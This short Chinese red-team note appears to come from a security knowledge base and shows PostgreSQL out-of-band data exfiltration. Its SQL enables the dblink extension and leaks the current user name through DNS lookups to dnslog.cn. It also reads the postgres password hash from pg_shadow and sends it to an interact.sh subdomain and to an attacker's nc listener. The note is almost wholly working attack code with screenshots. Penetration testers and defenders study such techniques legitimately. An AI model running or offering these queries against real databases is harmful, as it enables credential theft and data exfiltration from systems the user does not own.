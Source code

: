 ## PostgreSQL 带外数据

```sql
-- 开启 dblink 扩展
CREATE EXTENSION dblink

-- 获取当前数据库用户名称
SELECT * FROM dblink('host='||(select user)||'.djw0pg.dnslog.cn user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/21.png)

```sql
-- 查询当前密码
SELECT * FROM dblink('host='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')||'.c8jrsjp2vtc0000rwce0grjcc3oyyyyyb.interact.sh user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/34.png)

```sql
-- nc 监听
nc -lvv 4445

select dblink_connect((select 'hostaddr=x.x.x.x port=4445 user=test password=test sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/35.png)

---